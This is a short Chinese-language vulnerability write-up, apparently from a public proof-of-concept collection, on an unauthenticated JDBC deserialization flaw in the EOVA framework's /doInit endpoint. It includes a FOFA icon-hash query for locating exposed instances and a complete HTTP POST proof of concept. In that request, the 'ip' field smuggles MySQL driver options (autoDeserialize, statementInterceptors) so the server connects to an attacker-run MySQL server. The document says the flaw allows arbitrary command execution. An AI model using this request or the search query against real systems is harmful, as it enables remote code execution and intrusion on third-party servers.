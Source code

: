 # EOVA未授权doInit接口存在反序列化漏洞

EOVA存在JDBC反序列化漏洞，由于JDBC连接mysql服务器的时候，参数完全可控，可传入恶意配置和恶意mysql服务器地址，导致反序列化漏洞。攻击者可利用该漏洞执行任意命令。

## fofa

```yaml
icon_hash="-1699356011"
```
/doInit
![image](https://github.com/user-attachments/assets/524b0059-fbcf-4a77-a79a-3d4efc0f9bbd)

## poc

```javascript
POST /doInit HTTP/1.1  
Host:   
Sec-Fetch-Dest: document  
Cache-Control: max-age=0  
Sec-Fetch-User: ?1  
Sec-Fetch-Site: none  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
Accept-Language: zh-CN,zh;q=0.9  
Sec-Fetch-Mode: navigate  
Cookie: JSESSIONID=1diwaoe2lud2k1w5bzj9gy0r9v; _jfinal_captcha=ec1807bb391d443f9730b7b18384157a  
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br, zstd  
Upgrade-Insecure-Requests: 1  
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1:3333%2Ftest%3FautoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%26user=URLDNS%26Yu9=Yu9%23&port=&username=root&password=123456
```



## 漏洞来源

- https://forum.butian.net/article/560
